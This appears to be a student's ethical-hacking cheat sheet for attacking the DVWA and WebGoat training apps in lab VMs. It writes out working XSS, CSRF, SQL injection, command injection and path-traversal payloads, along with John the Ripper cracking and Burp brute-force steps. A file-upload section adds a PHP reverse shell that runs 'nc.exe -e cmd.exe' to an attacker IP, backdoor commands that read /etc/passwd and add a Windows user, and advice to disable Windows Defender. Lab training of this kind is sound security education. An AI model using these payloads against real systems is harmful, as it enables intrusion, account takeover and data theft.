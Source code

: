# EHD Web Application Cheat Sheet

###### tags: `EHD`

## XSS
- Trigger alert in textbox input (Type into textbox)
```html
<script>alert("Hello!")</script>
```

- Redirect to another page (Type into textbox)
```html
<script>document.location="https://www.google.com"</script>
```

- If there is a maximum length limit for text input, inspect and modify the input element
![](https://i.imgur.com/e4sSKVf.png)

- Creating a fake form (type into textbox):
```html
<form>
Input1: <input type="text"><br>
Input2: <input type="text"><br>
<input type="submit" value="submit button">
</form>
```

## CSRF
- Create a CSRF page with the following contents:
- **Example 1:** Contains image with source to change credentials
```html
<!--
Comments:
- Replace Win10-IP with own Win10 VM IP Address
- Image source set to URI dusplayed when admin password is changed
-->
This is a very new web page
<img width="1" src="http://Win10-IP/dvwa-master/vulnerabilities/csrf/?password_new=12345678&password_conf=12345678&Change=Change">
```

- **Example 2:** Contains 1x1 small iframe to manipulate website data
```html
<iframe width="1" height="1" src="https://www.imdb.com/title/tt0803096"></iframe><br>
Good Day!
```

## Command Injection
- Type IP of other machines, followed by `&& dir c:\
- Directory listing of C drive in Win10 VM shown

## SQL Injection
- Basic injection command:
```sql
ppp' or '0' = '0
```

- Retrieve more columns from table:
```sql
ppp' or '0' = '0' union select column1, column2 from table --
```

- Retrieve `information_schema` from database
```sql
ppp' or '0' = '0' union select table_schema, table_name from information_schema.tables --
```

## John The Ripper
- Crack hashed passwords inside <u>password.txt</u>
```
sudo john password.txt
```

- Run John The Ripper with various suggested formats
```
sudo john --format=raw-md5 password.txt
```

## Forced Browsing
- Manipulate the value contained in `page=` to find hidden files
```
http://Win10-IP/dvwa-master/vulnerabilities/fi/?page=file4.php
```

## File Inclusion
- Change URL below to get non-existent page and get error to find full path of page
```
http://Win10-IP/dvwa-master/vulnerabilities/fi/?page=include2.php
```

- Find configuration file of Apache Web Server
```
http://Win-10/dvwa-master/vulnerabilities/fi/?page=..\..\..\..\apache\conf\httpd.conf
```

## Burp Suite
### Setting Up
- Launch Burp Suite
```
sudo burpsuite
```

- Browse to DVWA on Kali VM
```
http://192.168.10.100/dvwa-master
```

> Ensure that Windows Firewall not blocking access to DVWA (Add Exception Port 80 if needed)

- Configure proxy in Firefox browser
![](https://i.imgur.com/dN1y4gW.png)


- Go to **Proxy** tab and 

### Brute Force Password with Dictionary Lists
- Create new files and store list of usernames
- Create another new file with list of passwords
- Turn on Intercept in **Proxy** tab
- Login with credentials in DVWA
- Forward packets intercepted by Burp until username and password found
- Click **Action** -> **Send to Intruder** -> **Positions**
- Request sent with parameters highlighted
- Add username and password to get username and password payloads
- Set attack type to **cluster bomb**
- Set one payload for username and one payload for password
- Load username and password list in respective payloads
- Check **Store requests** and **Store responses**
- Start Attack
- View results in **Response** tab
- Find request with <u>correct</u> response

> Use **Grep -Match** and enter keyword to search in the **Add** textbox to find matching keywords from the results

## File Upload: Malicious Files 
![](https://i.imgur.com/poKARAw.png)

- To browse to uploaded file:
```
http://Win10-IP/dvwa-master/hackable/uploads/uploaded.file
```

### Backdoor
- List web shell languages:
```
ls /usr/share/webshells/
```

- Languages supported by DVWA:
```
sudo nmap -sV -p 80 <Win10-IP>
```

![](https://i.imgur.com/bdavvg8.png)

- List contents of `php` directory and make simple backdoor script and upload it to DVWA

![](https://i.imgur.com/kxDH0PZ.png)

> **Troubleshooting!**
> If script runs and gets removed, disable Windows Defender and upload the file and run it again!

- Backdoor can run commands from the URL
![](https://i.imgur.com/HJivVJH.png)
![](https://i.imgur.com/uIvJQqO.png)
```
cat /etc/passwd
net user secretuser 1q2w3e4r! /add
```

- Netcat Reverse Shell for Windows
```php
<?php
	header("Content-type: text/plain");
	$ip = "Kali-IP";  // Change to Kali IP
	$port = "443";    // Change to any port number not in use
	$cmd = "nc.exe -e cmd.exe ".$ip." ".$port;
	echo "\nExecuting : ".$cmd."\n";
	$output = system($cmd)
?>	
```

- Run Netcat on Kali to listen to port
```
sudo nc -l -p <port-number>
```

- Upload Netcat reverse shell and `nc.exe` on the file to DVWA file upload
- Browse to Reverse Shell
```
http://Win10-IP/dvwa-master/hackable/uploads/nc-reverse-shell.php
```

## WebGoat
- Default port: 8080
- Run command to change port of WebGoat:
```
java -jar webgoat-server-nnnn.jar --server.port=9090
```

- Configure the following proxy settings `about:config` in Firefox browser
![](https://i.imgur.com/H4UQAhV.png)

### Bypass Front-End Restrictions
- Connect browser to Burp Proxy and enable **Intercept** on Burp
- Forward packets until submitted form is found
	- Inputs can be modified below
![500](https://i.imgur.com/8h2pCRH.png)

### Authentication Bypass
- Intercept security questions with Burp and 
![](https://i.imgur.com/UNyKKBx.png)

